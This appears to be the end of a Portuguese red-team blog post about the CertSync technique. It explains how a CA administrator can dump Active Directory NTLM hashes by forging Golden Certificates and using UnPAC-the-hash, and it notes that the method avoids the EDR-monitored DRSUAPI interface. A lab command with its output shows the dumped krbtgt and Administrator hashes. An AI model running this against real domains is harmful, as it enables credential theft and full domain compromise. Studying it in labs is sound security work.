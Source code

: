 ![golden](/assets/golden.png)

## Certsync against DCsync

Tá, mas sorahed 98% dos redteamers conhecem o DCSync e se sentem confortáveis com ele, o que esse CertSync tem de vantagem afinal?

Bom o DCsync  explora o protocolo **MS-DRSR**, usado ele para replicar dados do AD, permitindo que um atacante extraia credenciais diretamente de um Domain Controller.

<br>

O ponto é que DCSync também utiliza a **DSRUAPI** que é monitorada e muitas vezes restritas por um EDR. Em casos de um ambiente maduro você não irá conseguir realizar esse ataque. Ai é onde o CertSync brilha, pois ele não nescessita da **DSRUAPI** e nem de um Domain Admin, apenas de um usuario que sejaadministrador da CA.

<br>

O **CertSync** é uma técnica para dumpar remotamente a **NTDS** utilizando as duas técnicas que vimos acima como o **Golden Certificate** e **UnPAC-The-Hash**, e ela faz isso em alguns passos:
- Faz um dump da lista de usuarios, informações da CA e também do CRL via LDAP.
- Faz o dump do certificado da CA e sua private key(.p12(Golden Certificate)).
- Forja localmente um certificado pra cada usuario
- Realiza UnPAC em todos esses certificados para obter a hash NTLM

<br>
Vamos reproduzir no laborátorio. Estou utilizando meu usuario que é administrador da CA que vamos realizar o ataque.

```bash
$ certsync -u paulo.victor -p 'Senha@123' -d corp.local -dc-ip 10.0.0.10 -ns 10.0.0.10
[*] Collecting userlist, CA info and CRL on LDAP
[*] Found 16 users in LDAP
[*] Found CA CORP-CA on corp.local(10.0.0.10)
[*] Dumping CA certificate and private key
[*] Forging certificates for every users. This can take some time...
[*] PKINIT + UnPAC the hashes
CORP.LOCAL/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:75431702DEEB8199026DCFCA6EA5C950:::
CORP.LOCAL/Administrator:500:aad3b435b51404eeaad3b435b51404ee:DDC84A0B28826D6CD4738C5852F38E81:::
....
```

### Conclusion

Bom, então foi isso, vimos que o ADCS também é muito potente para persistência de usuarios, maquinas e também de dominio, espero escrever mais coisas futuramente sobre ADCS, e que você meu querido leitor também tenham gostado desse artigo, se curtiu da um joinha curte e compartilha.

- Per aspera ad inferi ❤️

